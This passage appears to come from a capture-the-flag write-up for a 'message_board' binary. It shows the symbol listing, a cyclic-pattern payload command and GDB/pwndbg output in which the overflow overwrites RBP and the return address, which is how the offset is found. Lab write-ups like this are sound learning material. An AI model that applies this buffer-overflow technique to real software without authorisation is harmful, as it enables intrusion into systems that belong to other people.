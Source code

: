 ```console
0x00000000004011c0  frame_dummy
0x00000000004011c2  read_input
0x0000000000401235  login
0x0000000000401326  admin_mode
0x0000000000401345  main
0x0000000000401400  __libc_csu_init
0x0000000000401460  __libc_csu_fini
0x0000000000401464  _fini
pwndbg> 
```

So lets create a payload to find the offset.

```console
echo -en "user\neasy_pass\n$(cyclic 1000) > payload
```

Running it in GDB we can see that it had a segmentation fault and stopped in $RBP with'uaaavaaa'.

```console
pwndbg> r < payload
Starting program: /home/htb-0xrogue/my_data/HTB/RE/message_board < payload
Message Board Writer

Log in and leave a message to your administrator

User: Password: Message: Sending: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabga
Goodbye!

Program received signal SIGSEGV, Segmentation fault.
0x00000000004013f6 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
 RAX  0x0
 RBX  0x0
 RCX  0x7ffff7ed4f33 (write+19) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x0
 RDI  0x7ffff7fa7670 (_IO_stdfile_1_lock) ◂— 0x0
 RSI  0x4052a0 ◂— 'Goodbye!\nsword: Message: Sending: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabga\n'
 R8   0x9
 R9   0x88
 R10  0x7fffffffdf30 ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabga'
 R11  0x246
 R12  0x4010e0 (_start) ◂— xor    ebp, ebp
 R13  0x0
 R14  0x0
 R15  0x0
 RBP  0x6161617661616175 ('uaaavaaa')
 RSP  0x7fffffffdf88 ◂— 'waaaxaaayaaazaabbaabcaabdaabeaabfaabga'
 RIP  0x4013f6 (main+177) ◂— ret    
───────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x4013f6 <main+177>    ret    <0x6161617861616177>










```